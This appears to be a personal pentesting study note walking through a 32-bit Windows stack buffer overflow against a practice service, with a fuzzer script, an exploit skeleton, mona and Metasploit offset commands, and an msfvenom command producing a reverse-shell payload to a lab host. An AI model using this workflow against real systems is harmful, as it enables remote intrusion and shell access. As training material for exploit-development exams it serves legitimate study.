 ```yaml
---
title: Windows BoF
category: Exploiting
order: 2
---
```


# Stack-Based 32-bits

For that task we are going to use a Windows 7 x64 with Immunity Debugger and mona.py installed.

## Mona configuration

`!mona config -set workingfolder c:\mona\%p`

## Fuzz to find the vulnerable input

fuzzer.py

```
import socket, time, sys

ip = "10.10.95.202"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Crash Replication & Crontrolling EIP

exploit.py

```
import socket

ip = "10.10.95.202"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

create a pattern: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

And add the output to a payload variable and exploited.

take notes about the EIP and search the offset:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q EIP`

Check adding `BBBB` value to `retn` variable.

## Finding Bad Characters

Find the characters that are not accepted on the payload. (REMEMBER FILL THE EIP)

`!mona bytearray -b "\x00"`

And add the output to the payload variable (without the offset)

Finally compare the binary file with the stack frame specifying the ESP.

`!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP>`

Repeat the process adding the new bad characters found until the results status returns **UNMODIFIED**

`!mona bytearray -b "\x00\x07\x2e\xa0"`

>**Note**: If the ESP direction does not match with the beginning of the payload fill it with NOPS (normally is `"\x90"\*8`)

## Finding a Jump Point

Find all "jmp esp" on the system `!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"`

>**Remember**: **Don't Forget** to put the **BAD CHARS** founded.

```
Log data, item 11
 Address=625011AF
 Message=  0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
```

> **REMBEMBER LITTLE ENDIAN** `\x62\x50\x11\xAF (system) -> \xAF\x11\x50\x62 (exploit)`

Put the adress on the "retn" variable. If the EIP is the same as ESP you success at jummping to ESP.

## Generate the Payload

We will generate the payload with `msfvenom`.

> **Note**: Don't forget to put the previously found bad chars!

```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.11.21.203 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py

| sed 's/buf/payload/g'
```

> **Hint:** Using **EXITFUNC=thread** will only finish the thread once termintad the reverse shell without affecting the whole program. -> NO DoS

Copy the generated payload ant integrate it into the `exploit.py`

## Prepend NOPs

We will need some space in memory for the payload to unpack itself, if we added a padding before to match the beginning of the payload with ESP add another 16 NOPS.

```
padding = "\x90" * 16
```
